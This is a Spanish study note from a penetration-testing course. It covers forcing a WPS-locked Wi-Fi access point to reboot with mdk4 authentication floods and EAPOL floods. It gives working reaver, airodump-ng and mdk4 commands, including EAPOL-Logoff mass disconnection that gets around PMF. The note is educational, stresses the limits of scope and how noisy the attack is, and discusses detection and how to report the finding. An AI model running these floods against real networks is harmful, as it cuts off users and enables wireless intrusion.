

---
tags:
  - Wi-Fi/WPS
  - Pentesting/Explotacion
Descripción: "Forzar el reinicio de un AP bloqueado con inundación de autenticación y EAPOL, y por qué es el último recurso tanto técnica como éticamente"
Fecha de actualización: 2026-08-01
Nota previa: "[[09 - Push Button Configuration y sus abusos]]"
Nota siguiente: "[[11 - Detección y evasión de ataques WPS]]"
Area: "[[WPS.base|WPS]]"
---
---

Hay dos clases de bloqueo WPS: el **temporal**, que expira solo y se sortea con las pausas de reaver ([[04 - APs con bloqueo y rate limiting]]), y el que **exige reiniciar el AP**. Contra el segundo, la única vía técnica es provocar ese reinicio.

<mark style="background: #FF5582A6;">Es una denegación de servicio deliberada contra la infraestructura del cliente, y debe tratarse como tal</mark>: sólo con el vector explícitamente en el alcance, fuera de horario y con el contacto técnico avisado.

# El montaje

Tres terminales en paralelo:

```shell-session
# Terminal 1 — el ataque de PIN, que quedará esperando
$ sudo reaver -l 100 -r 3:45 -i wlan0mon -b 60:38:E0:XX:XX:XX -c 11
```

```shell-session
# Terminal 2 — vigilar el estado de bloqueo
$ sudo airodump-ng --wps --bssid 60:38:E0:XX:XX:XX -c 11 wlan0mon

 BSSID              PWR Beacons  CH  ENC  CIPHER AUTH WPS     ESSID
 60:38:E0:XX:XX:XX  -52      14  11  WPA2 CCMP   PSK  Locked  HTB-Wireless
```

```shell-session
# Terminal 3 — el DoS
$ sudo mdk4 wlan0mon a -a 60:38:E0:XX:XX:XX
```

La terminal 2 es la que dice si ha funcionado: el valor de la columna `WPS` pasa de `Locked` a un modo normal (`Label`, `LAB,DISP`…) cuando el AP se reinicia.

# Inundación de autenticación (`a`)

```shell-session
$ sudo mdk4 wlan0mon a -a 60:38:E0:XX:XX:XX

Connecting Client BC:AC:DC:23:D1:31 to target AP 60:38:E0:XX:XX:XX
Packets sent: 1618 - Speed: 1617 packets/sec
Connecting Client 84:24:10:39:FD:D1 to target AP 60:38:E0:XX:XX:XX
```

Autentica clientes falsos desde MAC aleatorias a razón de más de mil por segundo. <mark style="background: #FFB86CA6;">La tabla de asociación del AP se llena y, en equipamiento con poca memoria, el proceso se cae y el dispositivo se reinicia</mark>. Es el mismo mecanismo que un agotamiento de recursos en cualquier servicio.

La variante *intelligent test* mantiene vivos los clientes falsos reinyectando tráfico capturado, lo que aumenta la presión sobre el AP:

```shell-session
$ sudo mdk4 wlan0mon a -i 60:38:E0:XX:XX:XX
```

# Inundación EAPOL (`e`)

Ataca directamente la máquina de estados de autenticación, no la tabla de clientes:

```shell-session
$ sudo mdk4 wlan0mon e -t 60:38:E0:XX:XX:XX        # EAPOL-Start
$ sudo mdk4 wlan0mon e -t 60:38:E0:XX:XX:XX -l     # EAPOL-Logoff
```

- **`EAPOL-Start`** inunda de peticiones de inicio de autenticación. Consume el estado del AP y a veces cuelga el proceso de gestión WPS específicamente.
- **`EAPOL-Logoff`** expulsa a los clientes ya conectados. Sirve además como desconexión masiva sin usar tramas de desautenticación — <mark style="background: #8000E1A6;">útil cuando `PMF` bloquea el ataque de deauth clásico</mark>.

Las dos se pueden combinar en terminales separadas.

# Cuándo funciona, y cuándo no

> [!warning]+ El propio módulo lo reconoce
> HTB cierra la sección advirtiendo que **"esto sólo funciona en routers muy antiguos; los recientes no son vulnerables a este tipo de DoS"**. Es cierto y conviene tenerlo presente antes de invertir tiempo: el equipamiento moderno limita por tasa las peticiones de asociación, aísla el proceso WPS y no se cae por una inundación de autenticación.
>
> Además hay un resultado intermedio frecuente y frustrante: <mark style="background: #FFB8EBA6;">el AP se cae, se reinicia… y arranca con el bloqueo WPS todavía activo</mark>, porque lo persiste en configuración. Se ha hecho ruido para nada.

| Situación | Probabilidad |
| --------- | ------------ |
| Router doméstico antiguo, firmware original | Razonable |
| Router de operador reciente | Baja |
| AP empresarial con controlador | Prácticamente nula, y muy detectable |

# El coste

Este ataque es **lo más ruidoso** de todo el módulo, y con diferencia:

- Miles de tramas por segundo desde MAC aleatorias: el patrón exacto que dispara cualquier WIDS.
- Un AP que se reinicia genera una alerta de disponibilidad en la monitorización de red, no sólo en la de seguridad.
- Los usuarios pierden conectividad de golpe y llaman al servicio técnico, que empieza a mirar.

<mark style="background: #FF5582A6;">Un pentester que necesita mantener perfil bajo no hace esto</mark>. Y si el objetivo era comprobar la resistencia del AP ante DoS, se documenta como tal y se ejecuta de forma acotada, no como medio para otro fin.

# La alternativa que casi siempre es mejor

Antes de tumbar un AP conviene agotar lo demás, porque el bloqueo WPS **no afecta a los vectores que no prueban PINs**:



Que la ruta termine en "abandonar WPS" no es una derrota: la captura del handshake o del `PMKID` no depende de WPS en absoluto, y contra un AP con bloqueo agresivo suele ser el camino más corto.

> [!important]+ Cómo redactarlo en el informe
> Si el DoS se ejecuta y funciona, el hallazgo tiene dos partes y ambas valen: **el AP es vulnerable a una denegación de servicio por agotamiento de recursos** —que es un hallazgo por sí solo, con impacto en disponibilidad— y **el reinicio anula el bloqueo WPS**, lo que degrada esa mitigación a un obstáculo temporal.

Cómo se detecta todo lo visto en este módulo, y qué margen queda, es [[11 - Detección y evasión de ataques WPS]].
